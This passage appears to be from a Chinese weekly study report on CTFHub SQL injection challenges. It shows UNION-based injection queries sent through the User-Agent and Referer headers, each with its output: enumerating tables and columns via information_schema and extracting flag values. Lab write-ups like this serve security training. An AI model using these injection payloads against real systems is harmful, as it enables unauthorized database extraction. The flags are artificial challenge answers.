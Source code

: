 ```
select * from news where id=0 union select 1,ssuyhfbsds from dnrtjhvioq
ID: 1
Data: ctfhub{81fb68e27ee8a124b720d789}
```

#### UA注入

![1732534392832](image/1124-1130周报/1732534392832.png)

操作类似上面，不过要改UA，那就用hackbar：

```
select * from news where id=0 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()
ID: 1
Data: gceuyrpqxp,news
```

```
select * from news where id=0 union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='gceuyrpqxp'
ID: 1
Data: prqibdtogg
```

```
select * from news where id=0 union select 1,prqibdtogg from gceuyrpqxp
ID: 1
Data: ctfhub{f9903da2267ac394daac496c}
```

#### Refer注入

![1732534685069](image/1124-1130周报/1732534685069.png)

```
           <code>select * from news where id=0 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()</code></br>ID: 1</br>Data: news,syowpbidys   
```

```
           <code>select * from news where id=0 union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='syowpbidys'</code></br>ID: 1</br>Data: pzbqdphzty
```
